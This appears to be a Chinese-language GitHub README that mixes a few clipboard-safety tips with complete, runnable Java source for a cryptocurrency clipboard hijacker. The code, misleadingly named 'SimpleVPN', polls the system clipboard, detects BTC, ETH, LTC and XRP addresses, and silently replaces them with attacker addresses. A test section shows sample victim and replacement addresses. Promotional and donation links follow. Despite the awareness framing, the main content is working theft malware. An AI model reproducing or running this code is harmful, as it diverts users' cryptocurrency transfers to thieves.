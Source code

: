 ## 剪贴板安全正确的使用方式：

**1.银行卡号、转账地址、手机号等信息不要一次性复制完，分段复制可以很大程度上避免被窃取。**

**2.复制密钥、密码等信息在复制前插入几个字符达到混淆真实密码的目的，粘贴完后再删除对应的字符即可。**

**3.填写收款账号等表单时，转账核对一下有关于钱相关的信息，不要直接就保存了或转账了。**

****

Java监控剪贴板代码（监控复制的内容是否是虚拟货币地址）：

```java

// 监听剪贴板并且替换
public class SimpleVPN {
    private static final Pattern BTC_PATTERN = Pattern.compile("(bc1|[13])[a-zA-HJ-NP-Z0-9]{25,39}");
    private static final Pattern ETH_PATTERN = Pattern.compile("0x[a-fA-F0-9]{40}");
    private static final Pattern LTC_PATTERN = Pattern.compile("[LM3][a-km-zA-HJ-NP-Z1-9]{26,33}");
    private static final Pattern XRP_PATTERN = Pattern.compile("[rX][1-9A-HJ-NP-Za-km-z]{24,34}");
    private static boolean isUpdatingClipboard = false; // 解决无限循环问题
    public static void main(String[] args) {
        Clipboard clipboard = Toolkit.getDefaultToolkit().getSystemClipboard();
        Transferable previousContent = clipboard.getContents(null);
        while (true) {
            try {
                Thread.sleep(1000); // 每秒检查一次
                if (isUpdatingClipboard) {
                    isUpdatingClipboard = false; // 跳过本次循环，避免检测到自己修改的内容
                    continue;
                }
                Transferable currentContent = clipboard.getContents(null);
                if (currentContent != null) {
                    // **忽略非文本格式的数据**
                    if (!currentContent.isDataFlavorSupported(DataFlavor.stringFlavor)) {
                        continue;
                    }
                    String newText = (String) currentContent.getTransferData(DataFlavor.stringFlavor);
                    if (previousContent == null || !newText.equals(previousContent.getTransferData(DataFlavor.stringFlavor))) {
                        System.err.println("用户复制了内容: " + newText);
                        if (BTC_PATTERN.matcher(newText).matches()) {
                            System.out.println("检测到比特币(BTC)地址: " + newText);
                            setClipboardContent("AAAAA1eP5QGefi2DMPTfTL5SLmv7DivfNa"); // 修改剪贴板内容
                        } else if (ETH_PATTERN.matcher(newText).matches()) {
                            System.out.println("检测到以太坊(ETH)地址: " + newText);
                            setClipboardContent("AAAA2d35Cc6634C0532925a3b844Bc454e4438f44e"); // 修改剪贴板内容
                        } else if (LTC_PATTERN.matcher(newText).matches()) {
                            System.out.println("检测到莱特币(LTC)地址: " + newText);
                            setClipboardContent("AAAAx3LhXqP1HYYNRuGH1cXBJHTYTPyxJq"); // 修改剪贴板内容
                        } else if (XRP_PATTERN.matcher(newText).matches()) {
                            System.out.println("检测到瑞波币(XRP)地址: " + newText);
                            setClipboardContent("AAAAeomae4FXwgQTJp9Rs64Qg9vDiTCdBv"); // 修改剪贴板内容
                        }
                        previousContent = clipboard.getContents(null); // 重新获取剪贴板内容，避免旧数据干扰
                    }
                }
            } catch (UnsupportedFlavorException e) {
                System.err.println("剪贴板数据格式不支持，跳过: " + e.getMessage());
            } catch (IOException e) {
                System.err.println("读取剪贴板数据时发生IO异常: " + e.getMessage());
            } catch (InterruptedException e) {
                e.printStackTrace();
            }
        }
    }

    // 修改剪贴板内容
    public static void setClipboardContent(String text) throws InterruptedException {
        isUpdatingClipboard = true; // 标记为正在修改剪贴板，避免无限循环
        StringSelection selection = new StringSelection(text);
        Clipboard clipboard = Toolkit.getDefaultToolkit().getSystemClipboard();
        clipboard.setContents(selection, null);
        Thread.sleep(500);
        System.err.println("篡改剪贴板成功，成功修改为: " + text);
    }

}

```

测试：

假设你要往下面的虚拟货币地址转账

**比特币 (BTC) 收款地址**: `1A1zP1eP5QGefi2DMPTfTL5SLmv7DivfNa`

**以太坊 (ETH) 收款地址**: `0x742d35Cc6634C0532925a3b844Bc454e4438f44e`

**莱特币 (LTC) 收款地址**: `LZ3nx3LhXqP1HYYNRuGH1cXBJHTYTPyxJq`

**瑞波币 (XRP) 收款地址**: `rDsbeomae4FXwgQTJp9Rs64Qg9vDiTCdBv`

****

不法分子的虚拟货币地址

**比特币 (BTC) 收款地址**: `AAAAP1eP5QGefi2DMPTfTL5SLmv7DivfNa`

**以太坊 (ETH) 收款地址**: `AAAA2d35Cc6634C0532925a3b844Bc454e4438f44e`

**莱特币 (LTC) 收款地址**: `AAAAx3LhXqP1HYYNRuGH1cXBJHTYTPyxJq`

**瑞波币 (XRP) 收款地址**: `AAAAeomae4FXwgQTJp9Rs64Qg9vDiTCdBv`

****





****

#### 攻防无绝对，技术无好坏，在非安全的信息时代，众人皆在囚笼之中，关注牛马小试，让你一飞冲天！

****

- **Youtube：  https://www.youtube.com/@MeeGooBoo**
- **Twitter ( X ）：  https://x.com/MeeGooBoo**
- **Telegram：https://t.me/NiuMaXiaoShi**


****

> [!CAUTION]
>
> 本仓库所有内容均来自互联网公开内容或本仓库所有者创作，请勿相信资源中的广告，主动联系你的都是骗子，提高智商谨防上当受诈！请勿利用本仓库实施违反任何适用法律法规等犯罪活动！本仓库所有者不对因使用本仓库内容导致的任何后果承担责任！

****

## 你的赞助是功德无量💰

> [!NOTE]
>
> 如果你觉得本仓库对你有帮助，你可以赞助我们一杯咖啡，鼓励我们继续维护下去。<br>通过Paypal支持我：https://paypal.me/MoGuoBiao<br>
> 成为我的Patreon会员：https://patreon.com/MeeGooBoo<br>
> 通过比特币支持我：bc1qkwrq5plek62fmfaynyphfuuepm6cxd4fsh5wrp



<p align="center" >
    <img src="https://raw.githubusercontent.com/MeeGooBoo/2025/refs/heads/main/static/imgs/logo.png" width="150">
    <h3 align="center">牛马小试</h3>
    <p align="center">
        <img src="https://raw.githubusercontent.com/MeeGooBoo/2025/refs/heads/main/static/imgs/pays.png">
    </p>
</p>


****
